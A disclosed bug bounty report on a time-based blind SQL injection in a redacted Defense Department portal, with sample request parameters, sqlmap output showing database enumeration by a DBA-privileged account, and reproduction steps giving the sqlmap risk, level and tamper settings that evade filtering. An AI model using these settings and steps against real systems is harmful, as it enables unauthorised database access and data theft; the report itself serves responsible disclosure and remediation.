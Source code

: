 # Followup - SQL Injection - https://██████████/██████/MSI.portal

## Report Details
- **Report ID**: 692326
- **URL**: https://hackerone.com/reports/692326
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-09-11T14:11:58.088Z
- **Disclosed**: 2020-05-14T17:07:19.205Z

## Reporter
- **Username**: arkaic
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**

Time based blind sql injection for parameter MSI_additionalFilterType1, at the following URL:

https://███/███/MSI.portal?_nfpb=true&_pageLabel=msi_portal_page_61

**Description:**

This is a follow up to a previous report I submitted:

https://hackerone.com/reports/674838


The following page has a form parameter which is vulnerable to time based blind sql injection, which allows an attacker to retrieve information from the database.

https://█████████/███/MSI.portal?_nfpb=true&_pageLabel=msi_portal_page_61

The page uses several hidden parameters which are sent when the form is submitted. The specific vulnerable parameter in this case is "MSI_additionalFilterType1".

Sample form POST data, prior to SQL injection testing:

https://█████████/█████/msi/query_results.jsp?MSI_additionalFilterType1=-999&MSI_additionalFilterType2=-999&MSI_additionalFilterValue1=-999&MSI_additionalFilterValue2=-999&MSI_generalFilterType=-999&MSI_generalFilterValue=-999&MSI_outputOptionType1=-999&MSI_outputOptionType2=-999&MSI_outputOptionValue1=-999&MSI_outputOptionValue2=-999&MSI_queryType=-999


Initially I was not able to retrieve details about the database user nor the schema. After adjusting several parameters for sqlmap, I was able to successfully do so.

Here we can see the specific edition of Oracle DB used, along with the user and database name:

████

```
banner: 'Oracle Database 11g Enterprise Edition Release 11.2.0.3.0 - 64bit Production'
[13:11:58] [INFO] fetching current user
[13:11:58] [INFO] retrieved: ███
current user: '██████████'
[13:13:17] [INFO] testing if current user is DBA
current user is DBA: True
[13:13:25] [WARNING] schema names are going to be used on Oracle for enumeration as the counterpart to database names on other DBMSes
[13:13:25] [INFO] fetching database (schema) names
[13:13:25] [INFO] fetching number of databases
[13:13:25] [INFO] retrieved: 
[13:13:29] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[13:13:29] [ERROR] unable to retrieve the number of databases
[13:13:29] [INFO] falling back to current database
[13:13:29] [INFO] fetching current database
[13:13:29] [INFO] retrieved: ███
[13:14:48] [WARNING] on Oracle you'll need to use schema names for enumeration as the counterpart to database names on other DBMSes
available databases [1]:
[*] ██████████
```
Here you can see the retrieval of a few table names from the database:

█████

```
[13:18:06] [INFO] fetching tables for database: '█████'
[13:18:06] [INFO] fetching number of tables for database '████'
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] 
[13:18:08] [INFO] retrieved: 
[13:18:14] [INFO] adjusting time delay to 3 seconds due to good response times
67
[13:18:32] [INFO] retrieved: ████████
[13:19:54] [INFO] retrieved: ███████
[13:23:29] [INFO] retrieved: ██████████
[13:25:45] [INFO] retrieved: ████████
[13:28:37] [INFO] retrieved: ██████████
```
I interrupted the process at this point, so as to not enumerate all 67 table names, and ceased further testing.


## Impact

High

## Step-by-step Reproduction Instructions

1. Visit the vulnerable url (https://███/██████/MSI.portal?_nfpb=true&_pageLabel=msi_portal_page_61) while using an intercepting proxy
2. Intercept GET request to capture full URL and all form parameters
3. Utilize sqlmap to detect and exploit sql injection in "MSI_additionalFilterType1" parameter

Note: The default configuration of sqlmap will not be able to find the sql injection. I adjusted the following parameters in order to do so.  "--risk 2 --level 3" and "--tamper=space2comment,randomcase,between"



## Product, Version, and Configuration (If applicable)

## Suggested Mitigation/Remediation Actions

1. Sanitize all form parameter inputs, and use whitelisting to allow only needed data
2. Rate limit submissions of forms. Time based sql injection requires many more HTTP requests than would be seen from legitimate browser activity.

## Impact

High/Critical impact.

This sql injection attack could be used to retrieve all information from the database. Also, the account is running with DBA privileges which would allow for the retrieval of database account passwords and takeover of the server itself via injection of system commands; these could be leveraged to attack other systems on the network and potential lateral movement to other systems.

## Attachments
No attachments
